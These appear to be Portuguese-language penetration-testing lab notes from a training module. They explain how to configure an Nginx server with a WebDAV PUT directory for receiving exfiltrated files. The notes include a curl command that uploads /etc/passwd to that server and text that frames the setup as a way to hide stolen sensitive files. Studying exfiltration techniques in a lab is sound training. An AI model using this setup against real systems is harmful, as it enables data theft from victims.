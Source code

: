 A transferência de arquivos pela Web é amplamente utilizada, principalmente porque os protocolos HTTP/HTTPS são comumente permitidos por firewalls. Um benefício significativo é que, na maioria dos casos, o arquivo é criptografado durante o trânsito. Isso é crucial em testes de penetração, pois a transferência de dados sensíveis sem criptografia pode ser detectada por sistemas de detecção de intrusão (IDS) e levar a questionamentos sobre a segurança das práticas empregadas.

## Ngnix - Habilitando PUT

Uma boa alternativa para transferir arquivos `Apache`é [o Nginx](https://www.nginx.com/resources/wiki/) porque a configuração é menos complicada e o sistema de módulos não leva a problemas de segurança como `Apache`pode acontecer.

Ao permitir `HTTP`uploads, é essencial ter 100% de certeza de que os usuários não podem fazer upload de shells da web e executá-los. `Apache`torna fácil dar um tiro no próprio pé com isso, já que o `PHP`módulo adora executar qualquer coisa que termine em `PHP`. Configurar `Nginx`para usar PHP não é nem de longe tão simples.

#### Crie um diretório para manipular arquivos enviados
```shell-session
NycolasES6@htb[/htb]$ sudo mkdir -p /var/www/uploads/SecretUploadDirectory
```

#### Alterar o proprietário para www-data
```shell-session
NycolasES6@htb[/htb]$ sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory
```

#### Criar arquivo de configuração Nginx
Crie o arquivo de configuração do Nginx criando o arquivo `/etc/nginx/sites-available/upload.conf`com o conteúdo:
```shell-session
server {
    listen 9001;
    
    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}
```

#### Crie um link simbólico para nosso site no diretório habilitado para sites
```shell-session
NycolasES6@htb[/htb]$ sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/
```

#### Iniciar Nginx
```shell-session
NycolasES6@htb[/htb]$ sudo systemctl restart nginx.service
```

Se recebermos alguma mensagem de erro, verifique `/var/log/nginx/error.log`. Se estiver usando Pwnbox, veremos que a porta 80 já está em uso.

#### Verificando Erros
```shell-session
NycolasES6@htb[/htb]$ tail -2 /var/log/nginx/error.log

2020/11/17 16:11:56 [emerg] 5679#5679: bind() to 0.0.0.0:`80` failed (98: A`ddress already in use`)
2020/11/17 16:11:56 [emerg] 5679#5679: still could not bind()
```

```shell-session
NycolasES6@htb[/htb]$ ss -lnpt | grep 80

LISTEN 0      100          0.0.0.0:80        0.0.0.0:*    users:(("python",pid=`2811`,fd=3),("python",pid=2070,fd=3),("python",pid=1968,fd=3),("python",pid=1856,fd=3))
```

```shell-session
NycolasES6@htb[/htb]$ ps -ef | grep 2811

user65      2811    1856  0 16:05 ?        00:00:04 `python -m websockify 80 localhost:5901 -D`
root        6720    2226  0 16:14 pts/0    00:00:00 grep --color=auto 2811
```

Vemos que já há um módulo escutando na porta 80. Para contornar isso, podemos remover a configuração padrão do Nginx, que é vinculada à porta 80.

#### Remover configuração NginxDefault
```shell-session
NycolasES6@htb[/htb]$ sudo rm /etc/nginx/sites-enabled/default
```

Agora podemos testar o upload usando `cURL`para enviar uma `PUT`solicitação. No exemplo abaixo, faremos upload do `/etc/passwd`arquivo para o servidor e o chamaremos de users.txt

#### Carregar arquivo usando cURL
```shell-session
NycolasES6@htb[/htb]$ curl -T /etc/passwd http://localhost:9001/SecretUploadDirectory/users.txt
```

```shell-session
NycolasES6@htb[/htb]$ sudo tail -1 /var/www/uploads/SecretUploadDirectory/users.txt 

user65:x:1000:1000:,,,:/home/user65:/bin/bash
```


Depois que tivermos isso funcionando, um bom teste é garantir que a listagem de diretórios não esteja habilitada navegando para `http://localhost/SecretUploadDirectory`. Por padrão, com `Apache`, se atingirmos um diretório sem um arquivo de índice (index.html), ele listará todos os arquivos. Isso é ruim para nosso caso de uso de arquivos exfilling porque a maioria dos arquivos é sensível por natureza, e queremos fazer o nosso melhor para ocultá-los. Graças a `Nginx`ser mínimo, recursos como esse não são habilitados por padrão.

















